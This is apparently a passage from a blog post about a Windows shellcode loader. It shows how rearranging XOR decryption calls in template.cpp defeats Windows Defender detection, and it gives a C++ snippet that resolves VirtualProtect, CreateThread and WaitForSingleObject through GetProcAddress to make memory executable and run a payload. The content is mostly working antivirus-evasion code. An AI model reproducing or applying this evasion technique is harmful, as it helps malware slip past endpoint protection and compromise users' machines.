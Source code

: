 Yep, I know. Simply shifting how the repeated pattern of 1. XOR 2. GetProcAddress will make this undetected by Windows Defender again. This 'breaks' the suspicious pattern that is triggering Windows Defender. 

For example, we can simply move the XOR calls on line 85 and line 88 respectively outside of the if condition,

Before (changes on template.cpp):
<div style="text-align: center"><img src="/images/cp3.png" height="260" width="680"/></div>

After (changes on template.cpp): 
```
[..snipped..]
	pVirtualProtect = GetProcAddress(GetModuleHandle("kernel32.dll"), virtual_protect);
	rvba = pVirtualProtect(exec_mem, calc_len, PAGE_EXECUTE_READ, &oldprotect);

    XOR((char *) createthread, ct_len, ct_key, sizeof(ct_key));
    XOR((char *) waitforsingleobject, wfso_len, wfso_key, sizeof(wfso_key));
	// If all good, launch the payload
	if ( rvba != 0 ) {
		    pCreateThread = GetProcAddress(GetModuleHandle("kernel32.dll"), createthread);
			thba = pCreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			pWaitForSingleObject = GetProcAddress(GetModuleHandle("kernel32.dll"), waitforsingleobject);
			pWaitForSingleObject(thba, -1);
	}
	return TRUE;
	}
}
[..snipped..]
```
